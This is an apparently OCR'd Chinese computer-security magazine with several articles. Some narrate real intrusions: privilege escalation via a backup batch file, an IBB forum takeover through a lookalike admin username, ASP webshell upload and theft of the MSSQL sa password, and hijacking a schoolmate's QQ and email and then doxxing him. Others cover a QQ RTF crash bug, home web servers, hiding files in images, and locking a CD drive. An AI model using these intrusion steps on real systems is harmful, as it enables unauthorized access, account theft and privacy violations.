呵呵，又看到了熟悉的 ID 了，如果那个批处理的执行真的是以 admin 权限执行的话，那么我已经是管理员了（如果不是的话，那可能是 user 级的），现在查看一下（图 7）。

这样，我们就成功拿到了 admin，如果没有找到类似这样的管理员的疏忽，还可以用其他的方法提升权限，如捆绑一个木马到管理员经常使用的程序中。关于放置后门和清除日志不是本文所涉及的内容，请参考相关文章。

总而言之，这个网站的网管确实打了该打的补丁，但是由于管理员设置错误导致存在漏洞，虽然此漏洞不能使入侵者直接获得 admin 权限，但是由于管理员的疏忽（那个数据库备份的批处理文件），而导致我成功拿到 admin。建议网管经常查看日志，一些备份数据的任务可以以其他权限执行。

# 过滤字符不全的安全隐患

文／幻影

介绍：IBB 论坛是一款以 MSSQL 为数据库，采用执行程序 IDDS.DLL 运作的论坛，应用非常广泛，用百度搜索 /ibbs.dll（论坛首页名）都能搜出一大群来，最新版本是 ibb1.5。

漏洞：产生漏洞的原因是因为注册用户时候字符过滤不严密，比如：管理员的名字是 ABC，那么我们可以注册一个：abc'（注意 abc 后的是字符，不是空格，这个字符制造方法是：文本文档－Tab 键 + Caps Lock 键）注册成功，登陆上去后，我们就有了论坛管理员的权限了。

最近在玩“奇迹”游戏，就不自觉地想看看该网站服务器的安全性，不让自己辛苦的结果最后恐怕是一场空。找到网站登陆上去，页面做得很精致，扫扫看：

- 1. 25 SMTP
- 2. 110 POP3
- 3. 1433 mssql（兴奋中～～好东西，拿权限要靠他了）
- 4. 3389 ts

---- --end--------

没了！本来就没指望扫出什么东西的，看他的网页代码，什么都没发现，登陆论坛看看，咦！没见过的 iBBS，不过是测试版本的，Down 个回来看看。

半个小时过去了……除了知道这个论坛是使用 mssql 数据库，得到它的绝对路径（论坛路径文件 ibbs.ini 不可改名，可通过 Web 下载）外，还是什么也没发现。

再回到他论坛坛上，用默认的管理员登陆……密码错误！注册一个新用户看看，填好后，点击“注册”。这时弹出一个对话框：名字中不能包含特殊字符：+=|#&<>%*'`^/\\";，空格

唉呀，刚才多按了个空格键，等等！哈哈，看见了吗？看见了吗？什么？没看见？倒，这个：名字中不能包含特殊字符：+=|#&<>%*'`^/\\";，空格，这段话暴露出该论坛注册所过滤的字符，可惜他们却忘记了过滤最重要的字符，该字符的制造方法是：Tab 键 + Caps Lock 键。现在假设论坛管理员的名字是 admin，那我们注册一个 admin'，然后登陆进去，现在这个论坛是我们的了。到此，我们终于有一个接口了。现在对于一个 invader 来说，面前已经是一片平坦了。

单击“使用设置”（管理员的控制面板在论坛的最下方），开启文件上传功能，然后在上传文件类型中加入：ASP。

然后回论坛首页发一个主题或是写一个回帖，将手上的 asp 木马传上去（这里注意，上传的文件将被重命名，所以我们要上传一个免 fso 的木马），点击你所发的帖子附件。在木马输入命令：

```
x:\bbs\cofig\ini\conn.ini copy x:\bbs\wcb\
```

复制 mssql 数据库配置文件到论坛目录，然后用 IE 下载下来。打开 conn.ini，看到了下面这段语句了吗？

```
SERVER=127.0.0.1;DATABASE=ibb;UID=sa;
PWD=123456
```

DATABASE 对应的是数据库中表的名字，uid 是 mssql 里默认管理员的账户（也是不可删除的），pwd 就是管理员的密码啦。然后，用 mssql 连接器连接上去就是 systcm 权限了，接下来添加 admin 用户，删除上传文件。

由此我们可以看到，安全隐患无处不在，我们一定不能忽视任何一处问题，对于任何一个有可能发生问题的地方都要经过严格反复的测试。

# 种木马时要小心些了

文／FEI

## ——别偷鸡不成反蚀把米

现在有许多的木马程序有截获密码的功能，当它们在后台运行时，一旦系统有登陆行为，登陆用户名和密码就会被木马记录下来，并通过邮件发送给种木马者，因为现在许多 SMTP 服务器都不再支持匿名发送，所以很多人在肉机上还保存了用于发送密码邮件的 SMTP 服务器信息，但这就产生了一个问题，机主可以通过某种方法获得这些信息，对于一些种木马者来说，就是偷鸡不成反蚀把米。下面就是我的亲身经历。

一日打开电脑后没什么事做，便开了 cmd 窗口想 Telnet 到肉机上玩一玩，我们是通过学校局域网共享联入 Internet，我的肉机也是局域网上的，你可别说我黑啊，怎么连自家人都不放过，我不过是试试手而已（学校外的太慢了），上边就开了一个 winshell，系统一点都没改，连盗密码之类的东西俺都没安装（它可是某个寝室的主机，安了的话马上就可以得到这个寝室的上网账号）。

我习惯性地敲入 telnet 198.162.0.124，然后顺手就一个回车，呀！忘了端口号 5277 了，烦死了，我无聊地坐在电脑前，等待着 Connection refused 字样的出现，但出人意料的是几行信息过后“Login:”出现在窗口里，嗯？我马上意识到不对，原来这个肉机的 Telnet 服务是关闭的，我下意识地敲入了 administrator，回车，“Pass：”再回车，欢迎信息，接着便是命令提示符“C：\>”，我当时的第一个反应就是机器被别人黑了，果然，我用 dir 列出文件后，有一个名为“你被攻陷了”的文本文件。我用 type 显示了文件的内容。

你好，我在上网的时候发现有人攻击你的机器（不是在说我吧，呵呵），于是我也试了一下，两分钟后，我就进入了你的机器，我并没有恶意，请不要见怪，我是 402 室的 wendy，QQ：4*******（此处省略），有事请联系我。

我 X，你以为你很了不起啊。我当时的感觉就像是被当众剥光了衣服一样（当然不是我），真有点哭笑不得了，看来这个也是我们学校的学生。再又看了一下文件的时间，是昨天下午，文件是在 C：根目录下，还没被动过，看来机主也够可以的了。为了防止不必要的麻烦，我删掉了这个文件，接着又用 netstat -n 查看了一下当前的连接，在确信没有其他人联到这台主机上时，我给 administrator 设了一个还算复杂的密码（机主是用他自己的 Winter 登陆的），我又用 net user 查看了一下用户名，只有 winter、administrator、guest 3 个用户，应该没什么问题了，不过希望他没用克隆的方法，我也懒得查了。

看看还有什么留下的东西没有，我敲进了一个 pslist，随着一大串进程的列出，一个惹人注目的现象跳进了我眼里，getpassword，啊啊，字面上一看就是一个盗密码的后门，我随即就用 pskill 停掉了这个进程，其他的进程都没什么特别的，看看注册表吧。我打开 regedit 选择连接网络注册表，添入 IP 地址（图 1）；接着，打开 HKLM\Software\Microsoft\Windows\CurrentVersion\Run，除了一个 getpassword，没有其他的来历不明的键值，我打开 getpassword 键，记下了执行文件所在的路径后，就删掉了该键。

我在本地随便打开一个文件夹，在地址中输入了 \\198.162.0.124\C$，（咳，看起来还是这个冰河方便些），进去后，直接来到木马所在路径 C:\winnt\ 下（这样比在 Telnet 窗口中操作直观些），拉了一下滚动条，一眼就看见了那个几个红色星号图标的 getpassword，呵，这个木马我见过，还很熟悉呢，我最开始接触这方面东西的时候就用过这个木马，它利用注册表启动项加载，在后台运行，记录的密码可以选择保存到文本文件或通过邮件发送，在机器上也可以通过热键激活，跟大多数此类木马都差不多，我首先检查了一下 C：的根目录，没有发现默认的 password.txt 文件，看来他把本地保存路径更改了，或者干脆就停掉了，这是意料中的事，没谁傻到在别人眼皮底下做这种事，那么会不会是程序目录呢？在 Winnt 下我也一无所获，算了，找到了也是加密过的。

接着我便把目标转向了它的配置信息，这个放在哪了，我倒是不太清楚，是不是注册表呢？我在 software 项下翻了个遍也没找到什么。那怎么办呢？对呀，我何不把木马弄一个下来看看，说干就干，在网上我很快找到了一个最新版本的，并下载到了本地，在本地运行，先显示了注册窗口，点“以后注册”后，出现了一个提示窗口（图 2）。

再点“确定”，窗口消失了，程序隐藏了起来，但就在它的下载目录中赫然出现了一个 Option.ini 文件，打开以后里面就是木马的配置信息，哈哈，我早该想到，我忙找到肉机上的 Option.ini，下到本地，用记事本打开，如图 3 所示，里面的 [REGINFO] 应该就是注册信息，[RUNOPTION] 就应该是一些运行参数，下面的 [HOTKEY] 就是它的激活热键了。Recpt 是接受邮箱，Sendaddress 是发送邮箱，SMTP 是邮件服务器，Sendpassword 就应该是发送密码了，不过可惜是加过密的。

那么再看一下木马，我在本机上按 CTRL+F11 后，出现了木马的配置窗口，简单明了（图 3）了，不用说了，我直接把窗口切换到邮件设置项（图 4）；发送邮件的设置全在这里，不过看来我不用研究木马的加密方法了，木马本身就能帮我把从肉机上下的 Option.ini 覆盖了本机上的 Option.ini 文件，再按热键，咦，怎么没反应，原来热键也被换了，打开任务管理器，强行终止了 getpassword，打开 Option.ini 把里面 [HOTKEY] 及其下的东西全部删掉，保存，再打开 getpassword，按默认热键，打开了，界面如图 5 所示，里面的星号就是我们想要的密码，到这时就应该不用我说了吧，地球人都知道，一个查看星号密码的东西就 OK 了，嘿嘿，我用的是 revealer，就这样我得到了种木马者邮箱的密码，如图 6 所示。我用这个密码登陆那个 QQ，一下子就上去了。

图 6

了，我又进了他的邮箱，从里面的邮件看，正是种木马者正在使用的邮箱，我在他自己建的文件夹“验证信件”中找到了 4 封腾讯密码保护的回复信，从他证件号的长度上看，很像是本校的学号，这不奇怪，我也经常用学号作为证件号，我在他的校友录中找到了他的真名，在学校信息网上查到了他的学号、姓名、电话等一大堆信息，用学号到腾讯一验证，呵呵，正是。

到他全部的 4 个号，而且从他的邮件和注册信息中，他的网友、他常去的论坛、他注册的网络游戏之类的东西，也全被我知道得一清二楚，甚至从他在校友录里的留言我还大致了解了这是个怎么样的人，而现在他对我却一无所知，或者就不知道我的存在，哈哈，现在知道问题所在了吧。不过此事到此就停了，因为考虑到是在一个学校，又跟我一个宿舍（从学校信息网上看到的），而且想来也再没什么令人感兴趣的东西了，就把他的 QQ 资料改了一下，以示警告，然后关上电脑，吃饭去了。

到现在，我就完全可以把他的密码保护资料全部改掉，将他的这个 QQ 号据为已有，再继续查一查，把他另外 3 个号的号码也弄出来，就可以得到他的网友、他常去的论坛、他注册的网络游戏之类的信息。写这篇文章的目的，就是给那些下木马者提个醒，网络上并不全是白痴（当然了，我也是个新手，用的方法可以说全是小儿科），千万别让木马把自己的信息泄露了，弄得跟上面一样。当然，申请一个新邮箱是一个好办法，但我还是要告诉那些种木马者，害人害己啊（本文的 IP 已被修改，并不是真实的 IP）。

（上接第 10 页）

话说回来，我们回到我们 QQ 的话题上来。QQ 现在已经有上千万的用户了。如果我们可以利用 RTF 代码来对 QQ 用户进行攻击，那么后果将不堪设想。近日，网络中流传一种针对腾讯 QQ 即时聊天软件的攻击手段，它通过向 QQ 好友发送一条特殊内容的消息，就能够导致消息接收者的 QQ 崩溃。

（参看“恶意代码克死 QQ 的解决之道”）。有人认为这是腾讯 QQ 存在安全漏洞，但实际上这是因为刚刚被公布的 Windows 系统中存在一个 DLL 缓冲区溢出漏洞，使得腾讯 QQ 成为该系统漏洞的受害者。该漏洞是因为 Windows 的 riched20.dll 在处理 RTF（富文本格式）代码、画出图形字符串格式（比如字符大小）的时候，存在缓冲区溢出漏洞，从而导致调用了该 dll 文件的应用程序崩溃。虽然这是一个可远程利用的缓冲区溢出漏洞，但是，要通过该漏洞执行代码或者命令还是非常困难的。

微软公司目前还没有发布相应的补丁，目前为用户提供下面的临时解决办法：使用新版本的 riched20.dll（Richedit 版本 4.0）文件，复制到 QQ 的安装目录下，覆盖原来存在的该文件，并建议覆盖前将旧文件重新命名备份。关于这个缓冲区的具体描述为：QQ 中字体设置最大为 22，一旦超过最大字体就会引发缓冲区溢出，当超过 34 字节以后就有可能会导致应用程序出现非法操作。所以，目前只有 0630 以后的版本（包括 0825 和 1230）才会被这段代码进行攻击，而 0630 之前（包括 0630）的版本，在收到这段代码时所显示的是一片空白。有心人可以注意到：我们完全可以在 RTF 代码中自己控制字体的大小。在写字板程序中最大支持字号为：1638，这个就是极限了。试着改大点发到 QQ 里面，QQ 就崩溃了。由于代码具有攻击性，所以大部分被马赛克了，QQ 代码炸弹防护补丁（非官方）下载地址：http://www8.pconline.com.cn/download/swdetail.phtml?id=9494 请大家及时更新你的 QQ，以免被黑客攻击（对不在防火墙后面的用户很具有威胁性）。

## 给你玩转个人动态域名

文／朱平

现在越来越多的朋友用上了宽带，可是用上宽带后和宽带前利用网络的性质还是一样的。浏览网页、聊聊QQ、玩在线游戏等，虽然速度比较子快多了，可老觉得还是有点对不起那多出很多的带宽。此时，你有没有想过建个自己的网络服务器呢？让朋友来浏览自己电脑上建的网站，上传和下载文件。有些读者或许会问：建网站不是要Web服务器吗？上传和下载文件不是要FTP服务器吗？听说只有Windows 2000 Server才有这种功能，我的是Windows 98操作系统能行吗？还有，我们每次宽带拨号上网IP都不一样呀，没有固定IP别人怎么访问我呢？没关系，跟着下文自己动手DIY。

## 一、所需软件

- Xitami v2.4b2，下载地址：www.Xitami.com
- CN99DNS 动态域名系统，下载地址：www.3322.org

## 二、软件简介

Xitami v2.4b2：超酷多功能网络服务器软件，支持GET、POST、HTTP、HEADER、CGI等等一般服务器的功能都有。安装程序才730K，关键这是免费软件，所以要做网站的站长又多了个软件可选择。有For Window3.x/95/97/98/NT/Unix/OS2/Openvms的版本。

CN99DNS动态域名系统：动态域名系统的客户端软件，连接远程动态域名服务器软件。

要认真填，不要忘记了，而且密码不要过于简单。接下来都按Next到最后一步，没有Next按钮了，只有Run和Finish，那就按Run按钮。

现在你的Web和FTP服务器已经基本建好了，打开你的IE浏览器，地址栏处输入127.0.0.1（如果是远程访问的话，则为你的网络IP）。显示如图2所示。这是Xitami安装好后的默认网页，我们可以用我们自己建好的网站主页替换。首先建一个简单的

## 三、建站开始

首先，点击下载好的Xitami v2.4b2安装程序，按Next下一页会出现一个安装文件路径选择，默认为是程序安装在C:\Program Files\Xitami目录下，本人建议为了安全和管理方便的需要，最好在其他盘建个目录进行安装，如：D：\Xitami。按Next下一页，出现对话框如图1所示。

要求你输入网站管理员的用户名和密码，这可个人主页，用记事本简单建一个作为测试。在桌面上新建一个文本文 件，写上“welcome to 海的归宿~”，菜单文件—>另存为—>出现一对话框，这时保存类型我们选择“所有文件”，文件名我们写上“default.html”，再按确定按钮，此时会在桌面生成一名为default的html文件，这和我们平时浏览的网页文件是一样的性质。现在要做的就是把刚才建立的default.html文件放到安装Xitami所在目录下的webpages文件夹（我的是d:\Xitami\webpages）替换里面原有的default.html文件，再到IE浏览器上输入

http://127.0.0.1后，你会发现显示的是我们刚才建立的html文件，如图3所示。

当然，原理相同，你只要把你自己建的精致个人网站的首页改名为default.html，再放到webpages下就能看到你的个人网站了。Web服务器建好的同时FTP服务器也建好了，使用和其他FTP站点的使用一样，方便远程管理吧，你可以用cuteftp或者dos下的FTP工具远程连接，轻松管理自己的站点，还能达到远程存储文件的目的。

下面来介绍一下网站管理，在IE浏览器上输入http://127.0.0.1/admin，弹出对话框如图4所示。

输入安装程序时，要求你输入管理员用户名和密码就能进去了，进去后你会发现都是一些傻瓜化的html数据管理形式，很简单的，我就不多说啦，修改完后不要忘记保存。

## 四、动态域名的安装和使用

一般我们的ISP服务提供商给我们提供的IP都是动态的，即每次拨号连上internet时网络IP地址都是不一样的。这样，每次朋友访问我们自己电脑上建立的站点的时候还要给他我们的动态IP（你可以用查QQip软件获得），这样是不是很麻烦？没事，CN99DNS动态域名系统能解决这问题，其运行原理很简单：每次我们开机上网后本机安装的CN99DNS动态域名系统会自动运行并连接远程动态域名服务器，远程动态服务器为我们提供一固定域名，如：kuin.3322.org，当第三方访问kuin.3322.org时，首先连接的是动态域名服务器，动态域名服务器再查找我们本地运行的动态域名系统并连接，如果我们本地没连上internet的话，则会显示找不到网页。解压缩所下载的CN99DNS动态域名系统软件包，点击setup.exe就可完成安装。安装后会在系统托盘处出现CN99DNS的图标。双击出现对话框（图5）。

填上我们在www.3322.org（www.no-ip.com、www.vicp.net、dns2go.deerfield.com）申请的二级动态域名（免费的）、用户名、密码后，点击“增加”，在域名前出现勾选图标就说明动态域名和本地连接成功啦。

## 五、效果演示

打开IE浏览器，地址栏处打上kuin.3322.org后，显示如图6所示：

这不是我们刚才建立的简单html文件吗？以后你每次连上internet后，朋友无论在哪，只要打上http://kuin.3322.org，就能找到你啦，不信你试试。

# 巧妙隐藏秘密又三法

文／小风

第 2 期杂志上有篇文章《巧妙隐藏你的秘密》，作者以崭新的思路介绍了几种另类的秘密隐藏文件的方法，把各种账户口令或者情书、图片等不方便公开的文件隐藏起来，方法非常的实用、巧妙！受其启发，我也想到了几招，方法也很特别，保证出乎你的意料，在此写出来与大家分享经验。

## 一、将秘密文件隐藏到 GIF 图片中

### 1. 隐藏秘密原理

我们可以把要隐藏的秘密写进一个文件中，任何格式都可以，然后用 WinZIP 压缩该文件，并加上复杂的口令，最后把这个 ZIP 文件隐藏到一个 GIF 文件中。这样，在一般人看来这是个 GIF 文件，而且点击 GIF 文件还会正常显示图片，但是如果你把这个 GIF 文件改名为 ZIP，或打开 WinZip（WinRAR 也可以），然后拖住这个 GIF 文件到 WinZip 窗口中，松开鼠标左键，在 WinZip 中就会出现你隐藏在 ZIP 文件中的秘密文件！用这个方法来隐藏秘密谁也想不到！

### 2. 所需工具简介

我们可以使用 UltraEdit 来完成 ZIP 文件和 GIF 文件的“封装”。当然，使用其他 16 进制文件编辑器也可以，如 WinHex，这里以 UltraEdit 为例来讲解。

### 3. 具体操作过程

首先，把你要隐藏起来的文件用 WinZip 压缩成一个 ZIP 文件，然后运行 UltraEdit，用它打开事先准备好的任意一个 GIF 文件，建议您选择的这个 GIF 文件不要太小，否则在加入 ZIP 文件后体积会变大，这样容易引起别人的怀疑。打开 GIF 文件之后，再用 UltraEdit 打开 ZIP 文件，然后按 Ctrl+A 键选定整个 ZIP 文件的代码，如图 1 所示，

按 Ctrl+C 键复制这些代码，回到 GIF 文件中，按 Ctrl 键和 End 键来到 GIF 文件代码的最后，如图 2 所示，把光标定位在最后一个代码之前，按

Ctrl+V 键把刚刚复制的 ZIP 文件的代码粘贴下来，插入完毕最后面的代码如图 3 所示，这样我们就把一个 ZIP 文件“封装”到 GIF 文件中了！在 UltraEdit 中点击“文件”菜单里的“保存”选项，就把 GIF 文件和 ZIP 文件合二为一了。现在，

别人看到的就只有这个 GIF 文件，谁也不会想到里面会有秘密存在！

如果你有秘密要隐藏，就赶快试试我的方法吧，我已经用这个方法瞒过了好几个高手！非常管用哦。

## 二、将秘密文件隐藏在 JPG 图片中

### 1. 隐藏秘密原理

用 WinRAR 将要隐藏的文件压缩为 .RAR 文件，然后准备一张 JPG 格式的图片，把这个 JPG 格式的图片也加入到该 .RAR 文件中，接下来把这个 .RAR 文件改名为 .JPG，点击这个 JPG 文件你看到的将是上一幅图片！而当你自己要查看其中的秘密时，只要把文件扩展名改回为 .RAR，点击“打开”就可以了。

### 2. 所需工具简介

我们可以使用 WinRAR 来压缩秘密文件，新版本更是加强了 NT/2000 在信息安全和数据流方面的表现。

### 3. 具体操作过程

下载 WinRAR 并安装，然后把你要隐藏的秘密写在一个文件（如果是图片文件，就不用这么麻烦了）中，按住 Ctrl 键的同时用鼠标选中你要隐藏的文件和事先准备好的 JPG 文件，点击鼠标右键选择“添加到档案文件”（安装 WinRAR 后会在右击菜单中自动添加此命令），会弹出“档案文件名和参数”对话框（图 4），在该对话框的“档案文件名”文本框中输入文件名，例如 Windows.rar，在“压缩方式”下拉列表框中选择“存储”方式，也就是选择不压缩，单击“确定”按钮，就生成了一个名为 Windows.rar 文件。

点击该文件，WinRAR 会打开它，单击鼠标右键，选择弹出菜单中的“排序方式”（图 5），在这里我们可以按照名字、大小、类型、修改时间或按 CRC 来排序，不管你选择哪一个来排序，最重要的是把你事先准备好的 JPG 文件放到该 RAR 文件的最前面！记住，一定要在最前面才行！最后，将这个 Windows.rar 文件改名为 Windows.jpg。OK，你可以把那些要隐藏的文件和事先准备好的 JPG 文件删除了，它们已经没有用了。

现在，如果有人用鼠标双击 Windows.jpg，只会显示你事先准备的那个图片，谁能想到在它里面会有秘密呢？

将 Windows.jpg 改名为 Windows.rar，然后双击这个 .RAR 文件，就可以查看自己的秘密文件了，它们静静地躺在里面呢。

二文件后双击即可打开。注意，使用完毕后不要把扩展名再改回来，这样才安全嘛。

有的朋友可能以为给这个 RAR 文件加个密码，岂不是更好？事实是如果你这样做了就无法使用本方法了，将 RAR 文件改名为 JPG 后，点击之后无法显示出图片来！所以不能加口令，切记切记！

现在，只有你知道这里面隐藏了天大的秘密，再也不怕别人发现你的秘密喽！妙哉！

## 三、把秘密文件隐藏在 BMP 文件中

### 1. 隐藏秘密原理

除了上面那两个方法，我们还可以使用 InThePicture 软件把秘密文件隐藏在 BMP 图片中。这样，你的秘密文件将被加密到 BMP 图片中，任何人看起来它都是一幅图片，而实际上里面隐藏着你的秘密文件！而这个文件是被 InThePicture 加密过的，只有拥有该软件，并且知道你的加密密钥才能看到里面的秘密，从而可以有效地保护你的数据安全！

### 2. 所需工具简介

InThePicture 是一款能把文件和文本信息进行编码并合并到 BMP 图片的程序。它能够读取 16 色、256 色和 24 位色的 BMP 文件，不管是压缩的还是没有压缩的，都可以将其转化为非压缩的 24 位色的 BMP 格式文件。一旦将文件和文本信息隐藏后，必须使用 InThePicture 才能将其提取出来，而且携带信息的图片与原图片绝对一模一样！下载地址：ftp://ftp.intar.com/pub/ITP/ITP220.

### 3. 具体操作过程

启动 InThePicture 后主界面如图 6 所示，其中图中的①是状态栏、②是密匙列表、③是文件列表，界面绝对的简单明了！下面说说具体的使用方法：

首先，选择一个 BMP 文件作为携带隐藏信息的载体。点击 “Open” 按钮，会弹出一个对话框让你选择一个 BMP 文件，你也可用鼠标从资源管理器拖拽一个 BMP 图片到 InThePicture 的状态栏中，仔细看状态栏，你会发现在这里只显示着当前加载图片的路径和名称等属性。那么，“Create” 这个按钮有什么用呢？原来，这是程序为防止我们没有合适的 BMP 图片，特约提供的用来自动生成 BMP 图片用的，多么体贴的举动啊！

接下来，创建密钥。在密匙列表区点击鼠标右键，选择 “New Key” 选项（图 7），会弹出添加新密匙的窗口（图 8），在 “Name” 中给新密匙取一个名字如 eagle，

点击 “Generate Key” 按钮，程序会为这个新密钥自动产生一个 11 位的随机密码自动添加到 “Value” 栏中，这个随机密码应该说非常安全，不仅长度够长，而且是由大小写、英文和数字混合组成，

每点击一次 “Generate Key” 按钮，该密码就会自动变一回，直到你满意按 “OK” 按钮，密匙 eagle 就会添加到密匙列表中了。你可以设定多个密钥，以备后用。而且，你可以设定缺省密钥，这样如果不加以选择的话，默认使用你设定的缺省密钥为文件的加密密钥。在密匙列表区选定一个密钥，

然后点击鼠标右键，选择“Set As Default”就可以把该密钥设定为缺省密钥。缺省密钥前面有个红色的钥匙形状，其他密钥前面的钥匙标志是黄色的，十分容易区别。

下一步，添加你要隐藏的文件。在文件列表区点击鼠标右键，在弹出菜单中选择“Add Files”（图9），选择好你要隐藏的文件之后，点击“OK”按钮会把它们加载到主界面文件列表区。如果你想给这个加密的文件给个说明以方便以后查看的话，可以在文件列表区中点击鼠标右键，在弹出菜单中选择“Insert Message”，

会弹出如图10所示窗口，在“Message Heading”栏中可以随便输入一些字符，等于是给这些说明文字起个标题，然后在“Your Message”文本框中输入相关说明文字即可，点击“OK”按钮就完成了说明文字的制作。当然，你不给加密文件以说明也可以，同样可以隐藏你要隐藏的文件。

现在，就可以给文件加密了。随意选择一个密匙，在文件列表区点击鼠标右键，在弹出菜单中如果选择“Apply Key To All Files”，就可以给所有文件加密。如果只想给某一个文件加密，可以选择弹出菜单中的“Apply Key To Selected Files”。操作完毕，点击“Encode”按钮，输入文件保存的路径和名称，按“保存”即可生成一个含有秘密文件的BMP图片。现在，可以把那些秘密文件删除了，这样会更安全。

让我们看看隐藏的效果如何。点击这个BMP图片，显示的是一幅图片，非常的漂亮！可谁能想到它美丽的面纱下竟然隐藏着我们的秘密呢？呵呵，真是不可思议！

如果自己要看BMP图片中隐藏的文件该怎么办呢？还是使用InThePicture这款软件！而且，离开它谁都无法看到里面的内容！运行InThePicture后，点击“Open”按钮找到含有秘密文件的BMP图片，将其加载到InThePicture中（图11），在文件列表区中列出的文件后面有“Locked”字样，表示被加密了。在密匙列表中选择好密匙，

注意选错了密钥是无法打开隐藏的文件哦。然后，在文件列表中点击鼠标右键，选择“Apply Key To All Files”则文件就会解开了，在被隐藏的文件后面你可以看到“Unlocked”字样（图12）。对数据安全有较高要求的朋友，赶快下载一个InThePicture试试吧！

## 四、写在最后

本文提到的3种方法都非常实用，按照文中提到的方法去隐藏秘密文件不会引起别人的注意，这样就减少了他人的探求其中秘密的欲望，从而保证了数据的安全。从这个角度来说，文中介绍的方法值得大家一试！

## 有感《让流光在IE工具栏中“高就”》

文 / huangrui

看了《让流光在IE工具栏中“高就”》觉得作者的方法的确不错。但在 Windows 2000/XP 下实现此功能无需那么麻烦而且功能更强大，利用“组策略”就可以实现。在“运行”栏中输入“gpedit.msc”，打开组策略。打开用户配置 -> Windows 设置 -> Internet Explorer 维护 -> 浏览器用户界面 -> 浏览器工具栏自定义(图1)。

单击“添加”。在“工具栏标题”中输入你想让鼠标指在图标上显示出的内容。在“工具栏操作”中指定文件路径。在“工具栏颜色图标”中输入你想让鼠标指在此图标上显示的图标的路径。在“工具栏灰度图标”中输入你的鼠标不指在此图标上显示的图标的路径(图2、图3、图4)。

其实，“组策略”还有许多其他强大的功能有待我们进一步的发掘，并从网站得到更多的信息。MSN Explorer 免费下载：http://explorer.msn.com/lccn

# 如何防止他人使用你的光驱

文／朱堂全

如何防止他人使用你的光驱？方法有好些种，本文只介绍笔者用过的几种。

## 一、修改注册表

假设你的光驱盘符为 F，通过以下步骤可以禁止别人使用你的光驱：

首先，点击“开始→运行”，输入 `REGEDIT` 打开注册表编辑器。依次展开 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，新建一个二进制值名为 `NoDrives`，其键值默认为“00 00 00 00”，它由 4 个二进制字节构成，第一个字节代表从 A 到 H 的 8 个盘，其中：01 为 A，02 为 B，04 为 C，08 为 D，10 为 E，20 为 F，40 为 G，80 为 H，第二个字节代表 I 到 P；第三个字节代表 Q 到 X；第四个字节代表 Y 和 Z。如果光驱为 F 盘，你只要把 `NoDrives` 的键值由“00 00 00 00”改为“20 00 00 00”就行了。注销后，在“我的电脑”里已经不能查看到光驱盘符了，但别人还是可以通过 MS-DOS 方式来访问你的光驱，因此还必须禁止 MS-DOS 方式。

然后，打开注册表编辑器，依次展开 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，新建一 DWORD 值，名为 `WinOldApp`，将值设为“1”；再新建一 DWORD 值，名为 `NoRealMode`，其值设为“1”。

最后，用记事本打开 `C:\msdos.sys`，在末尾加上 `Bootkeys=0`，保存退出。重启计算机后，别人将无法在“我的电脑”下使用你的光驱，也无法通过“关闭系统→重新启动计算机并切换到 MS-DOS 方式”来访问你的光驱了。

## 二、用软件来解决（有三种工具）

- 1. 使用 Tweak UI 隐藏光驱。Tweak UI 位于 Windows 98 安装光盘的 `\TOOLS\RESKIT\POWEROY` 文件夹中，首先找到 `TWEAKUI.INF` 文件，鼠标右击此文件选择“安装”命令，这样便将 TweakUI 安装在 Windows 的控制面板中了。接着进入控制面板，双击 Tweak UI 图标，单击“我的电脑”选项卡，此时本机全部的驱动器被罗列出来，要隐藏光驱就去掉光驱图标旁边的勾选，之后单击“确定”按钮关闭 Tweak UI 窗口，最后重新启动 Windows。

- 2. 启动《超级兔子魔法设置》，选择“高级隐藏”，在“磁盘与文件夹”选项卡下点击你的光盘盘符（如 H:），然后点击“保存”，重启机器，你就会发现光盘盘符不见了。这时，别人当然无法使用你的光驱了。为了安全，可以给《超级兔子魔法设置》设置一个启动密码，这样就更安全了。当你想使用光驱时，重复上述步骤，将 H: 的勾选去掉即可。

- 3. 启动《Windows 优化大师》，选择“性能优化”下的“系统安全优化”，点击“更多设置”，选中你的光驱盘符，点击“确定”即可。为了安全，你也可以在“其他优化选项”设定《Windows 优化大师》的启动密码。

## 三、用自动批处理文件来解决

在安装系统的分区（通常是 `C:\`）里找到 `Autoexec.bat` 文件，单击右键，选择“编辑”，加入 `subst *:d\e`，然后保存退出。“*”是指你光盘的盘符，这样每次启动系统的时候，就会自动把光盘指向 D 盘的 e 文件夹（事先请建立此文件夹，或者指向其他文件夹也行），以后，如果有人想打开光驱的话，他只能看到 D 盘 e 文件夹里的内容了。想解除的话，就把刚才所作修改的地方还原，重启即可（事先也可以备份 `Autoexec.bat`，以后覆盖回去就行了）。

# 自己制作




# 计算机之间的短信

文／李卫刚

